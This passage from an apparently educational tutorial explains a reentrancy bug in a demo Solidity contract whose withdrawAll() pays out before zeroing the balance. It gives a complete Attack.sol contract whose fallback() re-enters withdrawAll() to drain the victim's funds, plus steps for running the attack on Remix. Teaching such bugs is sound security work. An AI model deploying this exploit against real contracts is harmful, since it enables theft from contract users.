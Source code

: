 ```js
        balances[msg.sender] -= amount;
        balances[_to] += amount;
    }

    receive() external payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
Seems legit, right? Well, there is an extremely dangerous vulnerability here. Let’s investigate what is happening in withdrawAll():
The function checks the caller’s balance. If any, the function sends back that balance. But wait, look at this line:
```js
(bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
```
This calls the _fallback()_ function if _msg.sender_ is a contract. What if _fallback()_ has some malicious code in it? What if _fallback()_ calls _withdrawAll()_ again?
If the latter happened, then _withdrawAll()_ will send funds again because the line “balances[msg.sender] = 0;” did not execute yet. Now the name "reentrancy" makes sense, right? Let’s attack this contract, shall we?

## Writing the Attack contract:
While you are in the _contracts_ directory, create an Attack.sol.
```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.7.0 <0.9.0;
import "./Vulnerable.sol";

contract Attack {
    Vulnerable public vulnerable;
    
    constructor(Vulnerable _vulnerable) payable {
        vulnerable = Vulnerable(_vulnerable);
    }

    function hack() public payable {
        vulnerable.deposit{value: msg.value}();
        vulnerable.withdrawAll();
    }

    fallback() external payable {
        if (address(vulnerable).balance != 0) {
            vulnerable.withdrawAll();
        }
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
All you have to do is to call _Attack.hack()_ along with some MATICs. This will deposit these MATICs as your balance in the _Vulnerable_ contract. After that, it calls _Vulnerable.withdrawAll()_, which in turn calls _Attack.fallback()_ by sending your balance. Now _fallback()_ reenters _Vulnerable_ with your _Attack_’s address as _msg.sender_ and this goes on. All of this is possible because the line that nullifies your balance did not execute yet.
If you want to try this out on Remix first, do the following:
NOTE: the numbers below are just for demonstration purposes. Consider sending 4 * 10 ^ (-9) and 1 * 10 ^ (-9), for example.

